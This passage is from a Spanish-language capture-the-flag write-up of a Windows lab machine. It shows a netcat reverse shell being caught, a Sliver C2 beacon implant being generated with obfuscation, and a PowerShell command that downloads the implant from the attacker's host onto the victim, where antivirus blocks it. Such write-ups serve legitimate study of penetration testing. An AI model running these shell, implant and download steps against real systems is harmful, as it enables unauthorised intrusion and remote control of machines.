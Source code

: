```console
$ sudo rlwrap -cEr nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.125] from (UNKNOWN) [10.129.136.40] 49862
Microsoft Windows [Version 10.0.19044.1466]
(c) Microsoft Corporation. All rights reserved.

C:\Users\edavies\desktop>
```

El problema es que esta sesión es cerrada cada x segundos, por lo cual me tengo que buscar otra opción.

Me voy a poner un poco "fancy" y vamos a utilizar Sliver, un C2 Framework muy utilizando en pentesting y ejercicios de red-teaming.

Si no sabéis nada sobre Sliver, os recomiendo aprender al menos lo básico ya que puede resultar muy útil en algunos momentos.

Vamos a generar un nuevo beacon para realizar la infección inicial y luego migraremos a una sesión.

Vamos a generar un HTTP Beacon así que primero nos ponemos en escucha por el puerto 80.
```console
[server] sliver > http

[*] Starting HTTP :80 listener ...
[*] Successfully started job #1

```

Ahora generamos el Beacon
```console
[server] sliver > generate beacon --http 10.10.14.125 

[*] Generating new windows/amd64 beacon implant binary (1m0s)
[*] Symbol obfuscation is enabled
[*] Build completed in 28s
[*] Implant saved to /home/pointedsec/Desktop/acute/content/REMAINING_CLEAVAGE.exe

```
Nos servimos como antes este ejecutable por el puerto 8081.
Y al intentar ejecutarlo vemos lo siguiente.
```console
PS C:\Users\edavies\desktop> 

iwr http://10.10.14.125:8081/REMAINING_CLEAVAGE.exe -o REMAINING_CLEAVAGE.exe

PS C:\Users\edavies\desktop> 

.\REMAINING_CLEAVAGE.exe

Program 'REMAINING_CLEAVAGE.exe' failed to run: Operation did not complete successfully because the file contains a virus

 or potentially unwanted software.

    + CategoryInfo          : ResourceUnavailable: (:) [], ApplicationFailedException 

    + FullyQualifiedErrorId : NativeCommandFailed 

```
